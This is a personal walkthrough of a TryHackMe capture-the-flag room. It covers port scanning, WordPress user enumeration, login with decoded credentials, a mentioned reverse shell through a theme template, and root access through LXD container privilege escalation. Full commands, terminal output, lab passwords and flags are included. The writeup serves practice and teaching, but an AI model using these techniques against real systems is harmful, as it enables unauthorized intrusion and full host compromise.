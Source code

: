```yaml
---
layout: post
title: Walkthrough - All in One
published: true
---
```


Security, i7md, wordpress, privesc, LXD. Fun bos where we get to exploit the system several ways

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.69.30 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.69.30``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- can login to ftp anonymously but upon doing so there doesnt seem to be much for us to discover.

- ``gobuster dir -u http://10.10.17.196/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php --no-error -t 100`` 

- we find ``/wordpress`` and ``/hackathons``

- hackathons we see a possible hint "Damn how much I hate the smell of ~~Vinegar~~ :/ !!!" note the vinegar in italics. and a couple comments 

```
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

- This is a Vigenere encryprion and cyber chef gives us "Try H@ckme@123"

- ``wpscan --url http://10.10.69.30/wordpress --``

- ``wpscan --url http://10.10.17.196/wordpress --enumerate u`` - we find username "elyana"

- ``[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).``

- can login with elyana:H@ckme@123

edit the main index template to start a revshell

* * * 

## What is the user flag?

- hint.txt in elyanas home dir gives us a hint that their password is stored somewhere hidden on the machine.
- ``find / -group elyana 2>/dev/null``

```
user: elyana
password: E@syR18ght
```

- we can then ssh in and ``cat user.txt`` which has a flag in base64

* * * 

## What is the root flag?

- we can use the lxc container to get root privileges. https://www.hackingarticles.in/lxd-privilege-escalation/

```
bash-4.4$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-08-05 04:39:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64 100%[===================>]   3.11M   800KB/s    in 5.1s    

2022-08-05 04:40:53 (627 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

image4.4$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias my 
bash-4.4$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Aug 5, 2022 at 4:41am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ursive=truexc config devive add ignite mydevice disk source=/ path=/mnt/root rec 
Description:
  Manage container and server configuration options

Usage:
  lxc config [command]

Available Commands:
  device      Manage container devices
  edit        Edit container or server configurations as YAML
  get         Get values for container or server configuration keys
  metadata    Manage container metadata files
  set         Set container or server configuration keys
  show        Show container or server configurations
  template    Manage container file templates
  trust       Manage trusted clients
  unset       Unset container or server configuration keys

Global Flags:
      --debug         Show all debug messages
      --force-local   Force using the local unix socket
  -h, --help          Print help
  -v, --verbose       Show all information messages
      --version       Print version number

Use "lxc config [command] --help" for more information about a command.
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
Error: Container 'ignite' already exists
bash-4.4$ lxc start ignite
bash-4.4$ lxc ignite /bin/sh
Error: unknown command "ignite" for "lxc"
Run 'lxc --help' for usage.
bash-4.4$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # cd /mnt/root
/bin/sh: cd: can't cd to /mnt/root: No such file or directory
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Aug  5 04:43 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
     4 -rw-------    1 root     root            31 Aug  5 04:44 .ash_history
~ # cd /mnt/mnt/root
/bin/sh: cd: can't cd to /mnt/mnt/root: No such file or directory
~ # cd /
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # cd mnt/root/root
/bin/sh: cd: can't cd to mnt/root/root: No such file or directory
/ # cd mnt
/mnt # ls
/mnt # ls -las
total 8
     4 drwxr-xr-x    2 root     root          4096 Feb 18  2021 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
/mnt # cd ..
/ # ls root
/ # cd root
~ # ls
~ # exit  
ursive=truexc config device add ignite mydevice disk source=/ path=/mnt/root recu
Device mydevice added to ignite
bash-4.4$ lxc start ignite
Error: Common start logic: The container is already running
bash-4.4$ lxc exec ignite /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
/mnt/root/root # 
```

* * * 

